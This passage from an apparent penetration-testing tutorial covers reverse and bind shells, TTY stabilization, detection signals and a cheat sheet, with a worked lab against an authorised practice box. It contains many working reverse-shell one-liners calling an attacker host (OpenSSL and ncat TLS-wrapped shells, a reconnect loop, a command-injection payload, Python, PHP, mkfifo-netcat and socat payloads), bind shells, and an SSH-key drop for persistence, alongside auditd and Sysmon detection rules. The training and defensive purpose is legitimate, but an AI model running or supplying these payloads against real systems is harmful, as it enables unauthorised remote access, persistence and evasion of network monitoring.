Generate a certificate on your box, run an OpenSSL listener, and connect back with OpenSSL from the target:

```bash
# attacker: make a throwaway cert and listen
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 3 -nodes -subj "/CN=cdn"
openssl s_server -quiet -key key.pem -cert cert.pem -port 443

# target: connect out over TLS and pipe a shell
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.14.7:443 > /tmp/s; rm /tmp/s
```

Now the traffic is a genuine TLS session — a passive sensor sees only an encrypted stream to port 443, indistinguishable at the packet level from HTTPS. (A proxy doing TLS interception still sees inside; see Part 11.)

### ncat with SSL both ways

If `ncat` is available on both ends it is far cleaner:

```bash
# attacker
ncat -lvnp 443 --ssl
# target
ncat --ssl 10.10.14.7 443 -e /bin/bash
```

### Keeping the shell alive

A single reverse shell dies the moment the TCP connection drops (patch reboots, IDS resets, flaky VPN). Two habits make you resilient:

- **Loop the callback** on the target so it reconnects if dropped:

```bash
while true; do bash -i >& /dev/tcp/10.10.14.7/443 0>&1; sleep 5; done
```

- **Drop an SSH key** (only if in scope) for a stable, fully-interactive fallback that survives everything: append your public key to `~/.ssh/authorized_keys` of a user you control, then `ssh` in normally. This is the single most robust "shell upgrade" of all — a real login with a real PTY — but it is also persistence, so it must be explicitly authorised and cleaned up.

```bash
mkdir -p ~/.ssh && echo 'ssh-ed25519 AAAA... kali' >> ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys
```

---

## Part 10: Fully Worked Lab — From Dead Shell to Real Terminal

**Scope:** a lab VM you own (or an authorised HTB/THM box), reachable at `10.10.10.5`, running a vulnerable PHP web app as `www-data`. Attacker Kali is `10.10.14.7`. Goal: obtain a reverse shell and drive it to a fully interactive terminal that survives `Ctrl-C`, tab-completes, keeps history, and can run `su`.

### Step 1 — Start the catcher

```bash
rlwrap nc -lvnp 443
listening on [any] 443 ...
```

### Step 2 — Trigger the reverse shell

The web app has a command-injection point in a `ping` field. Inject a bash reverse shell (URL-encoded when sent, shown decoded here):

```bash
; bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'
```

Back in the listener:

```
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.5] 41022
bash: cannot set terminal process group (1287): Inappropriate ioctl for device
bash: no job control in this shell
www-data@web01:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

That "no job control" line is the tell: interactive-ish, but no TTY.

### Step 3 — Prove it's broken

```bash
www-data@web01:/var/www/html$ su -
su: must be run from a terminal
www-data@web01:/var/www/html$ sudo -l
sudo: no tty present and no askpass program specified
```

Both fail exactly as Part 6 predicted.

### Step 4 — Spawn a PTY

```bash
www-data@web01:/var/www/html$ which python3
/usr/bin/python3
www-data@web01:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@web01:/var/www/html$
```

### Step 5 — Background and fix the local terminal

```
www-data@web01:/var/www/html$ ^Z
[1]+  Stopped                 rlwrap nc -lvnp 443
kali@kali:~$ stty raw -echo; fg
rlwrap nc -lvnp 443

www-data@web01:/var/www/html$ export TERM=xterm-256color
```

(The blank line after `fg` is where you press Enter. `fg` itself isn't echoed — expected.)

### Step 6 — Match window size

In another local tab:

```bash
$ stty -a | head -1
speed 38400 baud; rows 50; columns 204; line = 0;
```

Back in the shell:

```bash
www-data@web01:/var/www/html$ stty rows 50 columns 204
```

### Step 7 — Verify full interactivity

```bash
www-data@web01:/var/www/html$ su -    # now prompts properly for a password
Password:
www-data@web01:/var/www/html$ vi /etc/passwd    # opens and renders correctly, :q to quit
www-data@web01:/var/www/html$ ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=115 time=12.3 ms
^C
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
www-data@web01:/var/www/html$
```

The decisive proof: `Ctrl-C` interrupted `ping` and returned to the prompt **without killing the shell**. Tab completion, up-arrow history (via bash readline + rlwrap), and `vi` all work. You now have a real terminal on the target.

### Step 8 (optional) — Trade up to socat

If the box has (or you upload) socat, a socat PTY shell gives the same result without the stty ritual and is more robust across disconnects. Re-catch with the socat listener from Part 9 and connect back with the socat `EXEC` payload.

---

## Part 11: Detection & Defense Angle

Everything above is loud if a defender is looking in the right place. Consolidating the blue-team view:

### Network signals

- **Outbound to a random IP on 443 with no TLS handshake.** A reverse shell to port 443 that never does a real ClientHello is a glaring anomaly to any proxy or Zeek/Suricata sensor doing protocol validation. Detection rule of thumb: *port says HTTPS, bytes say plaintext shell.*
- **Long-lived, low-volume, bidirectional connections** from a server or workstation to an external host — the classic interactive-shell traffic shape.
- **Egress to non-business destinations** on 4444, 1337, 9001 and other "hacker default" ports. Egress filtering to an allowlist of destinations and ports is the single most effective control against reverse shells.
- **Bind shells** appear as new listening sockets on unusual ports — catchable with periodic `netstat`/`ss` diffs or EDR socket telemetry.

### Host signals

| Artifact | Detection |
|----------|-----------|
| `bash -i` with fd redirected to `/dev/tcp` | command-line auditing (auditd, EDR) flags `/dev/tcp` in a process arg |
| `python -c ... pty.spawn` | interpreter spawning a shell with a socket — strong EDR heuristic |
| `nc -e`, `mkfifo` + `nc` loops | `mkfifo` followed by `nc` in the same session is a known reverse-shell pattern |
| `socat ... EXEC:bash,pty` | socat with `EXEC` and `pty` options is almost never legitimate on a server |
| A web server user (`www-data`) spawning an interactive shell | process-lineage anomaly: `apache2`/`nginx`/`php-fpm` -> `bash -i` should never happen |

### Practical defenses

- **Egress filtering / outbound allowlisting** — break the reverse-shell channel at the network edge.
- **Process-lineage and command-line logging** — auditd rules for `execve` capturing `/dev/tcp`, `pty.spawn`, `mkfifo`+`nc`; Sysmon on Windows for `powershell -enc` and `TCPClient`.
- **TLS inspection / proxy enforcement** — force all 443 egress through an inspecting proxy so raw-socket shells on 443 can't hide.
- **Least privilege on service accounts** — a `www-data` shell should be able to do almost nothing; SELinux/AppArmor confinement limits what a foothold shell can execute.

**IR use case:** during triage, `ss -tnp` (show TCP sockets with the owning process) reveals a live reverse shell's process and remote peer; `lsof -p <pid>` shows the socket wired to fds 0/1/2 — the smoking gun that a process's stdio is a network connection.

### A concrete detection lab (defender side)

To *see* what you are generating, put a sensor on the loopback of your lab and watch a shell land. An `auditd` rule that logs any `execve` mentioning `/dev/tcp` or `pty.spawn`:

```bash
# /etc/audit/rules.d/revshell.rules
-a always,exit -F arch=b64 -S execve -F exe=/bin/bash -k shell_exec
# then: augenrules --load ; ausearch -k shell_exec
```

On Windows, the equivalent is **Sysmon Event ID 1** (process create) plus **Event ID 3** (network connect). A rule catching PowerShell making an outbound connection to a non-corporate IP:

```xml
<RuleGroup groupRelation="and">
  <NetworkConnect onmatch="include">
    <Image condition="end with">powershell.exe</Image>
    <DestinationPort condition="is">443</DestinationPort>
  </NetworkConnect>
</RuleGroup>
```

Correlate: *process = powershell.exe* AND *parent = winword.exe/outlook.exe* AND *outbound 443 to a fresh IP* is a near-perfect reverse-shell signature. The lesson for the offensive side is that **who spawned the shell** (process lineage) is as damning as the network traffic — which is why later chapters care so much about living-off-the-land and parent-process spoofing.

### Memory hooks

- **"Reverse = you're the server."** You listen; the target dials home. Bind = the target is the server.
- **"Egress is the crack in the wall."** Outbound is trusted; that's why reverse-to-443 is the default.
- **"No TTY, no `su`."** Any tool that asks for a password interactively needs a PTY.
- **"Ctrl-Z, raw-echo, fg."** The three beats of the stabilization dance, in that order.
- **"socat is a shell in one shot."** If the binary is there (or you can drop it), skip the stty ritual.

---

## Part 12: Common Pitfalls

- **Using `sh` when you needed `bash`.** `/dev/tcp` and `>&` are bash features; on Debian `/bin/sh` is `dash` and they fail silently. Always `bash -c '...'`.
- **Wrong LHOST.** On VPN engagements (HTB/THM) your reachable IP is the `tun0` address, not your LAN `eth0`. Check with `ip a` and use the tun IP.
- **Port needs privilege.** Listening on 443 requires root; use `sudo` or pick a high port and note egress implications.
- **Forgetting `stty raw -echo` before `fg`.** Do it in that exact order or your terminal double-echoes or eats control keys.
- **Not setting `TERM`.** `vi`/`top` will error with "unknown terminal" until you `export TERM=xterm-256color`.
- **Breaking your local terminal on exit.** After the shell dies you're in raw mode — type `reset` (blind) to recover.
- **Leaving artifacts.** `mkfifo /tmp/f` and uploaded `socat` binaries are evidence; clean up `/tmp` in an authorised test and note it in your report.
- **One shell only.** A single shell is fragile. As soon as you stabilize, establish a *second* independent access path (another reverse shell, or SSH key drop if in scope) so one dropped connection doesn't cost you the box.

---

## Part 12.5: Field Troubleshooting FAQ

| Problem you actually see | Most likely cause | Fast fix |
|--------------------------|-------------------|----------|
| Listener never fires | wrong LHOST (used eth0, needed tun0) or egress blocked | `ip a`; try 443/80/53 in order |
| Shell connects then instantly dies | you're running `sh` and used bash-only syntax | wrap as `bash -c '...'` |
| `id` works but nothing else | non-interactive, no PTY | Part 8 ritual |
| Payload rejected by app | filtered chars (space/`>`/`&`) | `${IFS}`, base64-decode stage, or Python payload |
| Got shell as `nobody`/`www-data`, can't read files | low-priv service account | that's expected — privesc is the next notebook |
| Upgrade done, but `top`/`vi` still broken | `TERM` unset or wrong size | `export TERM=xterm-256color`; `stty rows/cols` |
| Local terminal garbled after exit | left in raw mode | type `reset` blind, Enter |
| Windows box, no python/nc | it's Windows | use the PowerShell `TCPClient` one-liner |

If you remember only one diagnostic reflex: run `tty` in the shell. If it prints `not a tty`, you have not upgraded yet, and every interactive tool will fail until you do.

---

## Part 13: Final Revision / Summary

- A network shell is just a shell whose stdin/stdout/stderr are redirected over a TCP socket. Everything weird about it flows from the missing TTY.
- **Reverse shell:** you listen, target connects out — the default because *outbound* egress is usually permissive (aim for 443/80). **Bind shell:** target listens, you connect in — for when you have an inbound path but no egress.
- Catch shells with `rlwrap nc -lvnp PORT`; upgrade to `ncat --ssl` or `multi/handler` as needed.
- Know the one-liners cold: `bash -i >& /dev/tcp/IP/PORT 0>&1`, the Python `pty.spawn`+`dup2` payload, PHP `fsockopen`, the `mkfifo`+`nc` loop, and the PowerShell `TCPClient` loop.
- A raw shell has no job control, no line editing, and can't run `su`/`ssh`/`vi`. Fix it by putting a **PTY** in front of it.
- The ritual: `python3 -c 'import pty;pty.spawn("/bin/bash")'` -> `Ctrl-Z` -> `stty raw -echo; fg` -> `export TERM=xterm-256color` -> `stty rows R columns C`.
- **socat** gives a fully interactive PTY shell from the first keystroke; upload a static socat binary if the target lacks it.
- Blue teams catch these via egress filtering, plaintext-on-443 anomalies, process lineage (web user -> `bash -i`), and command-line auditing for `/dev/tcp`, `pty.spawn`, and `mkfifo`+`nc`.

---

## Part 14: Cheat Sheet / Quick Reference

```text
# LISTENERS (attacker)
rlwrap nc -lvnp 443                 # basic catcher with history
ncat -lvnp 443 --ssl               # TLS-wrapped catcher
socat -d -d TCP-LISTEN:443,reuseaddr,fork FILE:`tty`,raw,echo=0

# REVERSE SHELLS (target connects to you)
bash -i >& /dev/tcp/IP/443 0>&1
python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("IP",443));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
php -r '$s=fsockopen("IP",443);exec("/bin/sh -i <&3 >&3 2>&3");'
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP 443 >/tmp/f
socat TCP:IP:443 EXEC:'bash -li',pty,stderr,setsid,sigint,sane

# BIND SHELLS (target listens, you connect in)
nc -lvnp 4444 -e /bin/sh           # target
nc -v TARGET 4444                  # attacker

# STABILIZE (in the caught shell)
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-Z
stty raw -echo; fg
export TERM=xterm-256color
stty rows 50 columns 204           # match `stty -a` on your box

# FALLBACK PTY SPAWNS
script -qc /bin/bash /dev/null
/usr/bin/expect -c 'spawn /bin/bash; interact'

# RECOVER LOCAL TERMINAL
reset      # or: stty sane

# WINDOWS REVERSE (PowerShell TCPClient one-liner) -> base64 + powershell -enc
```

---

## Part 15: Practice Labs & Resources

- **TryHackMe — "What the Shell?"** — the definitive guided room for reverse/bind shells, listeners, and the full TTY-stabilization ritual. Do this one first.
- **TryHackMe — "Linux PrivEsc" / "Common Linux Privesc"** — you land via a shell you must stabilize before escalating; perfect reinforcement.
- **HackTheBox — any "easy" Linux box with a web foothold** (e.g., the classic command-injection boxes) — practice going from web RCE -> dumb shell -> stabilized terminal every time.
- **OverTheWire — Bandit** — not shells per se, but forces terminal fluency that makes stabilization second nature.
- **PentestMonkey Reverse Shell Cheat Sheet** and **PayloadsAllTheThings -> Reverse Shell Cheatsheet** — bookmark and, better, memorise the top five.
- **Static binaries repos** (e.g., the well-known `static-binaries` collection) — keep a static `socat` and `nc` per-architecture in your kit.
- **RevShells.com** — reverse-shell generator; use it to internalise the templates, then wean off it.
- **HackTheBox Academy — "Shells & Payloads" module** — structured coverage of every shell type, payload delivery, and stabilization, with graded targets.
- **VulnHub — "Kioptrix" and "Basic Pentesting" series** — old but perfect for practising web-RCE-to-stabilized-shell offline, no VPN needed.

In the next chapter we go deep on the two tools that made half of this possible — **netcat and socat** — treating them as general-purpose networking Swiss-army knives, not just shell catchers: file transfer, port scanning, banner grabbing, relays, encrypted tunnels, and the exact option syntax that trips people up.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/07-reverse-vs-bind-shells-stabilization-and-tty-upgrading), with comments and the latest edits.*
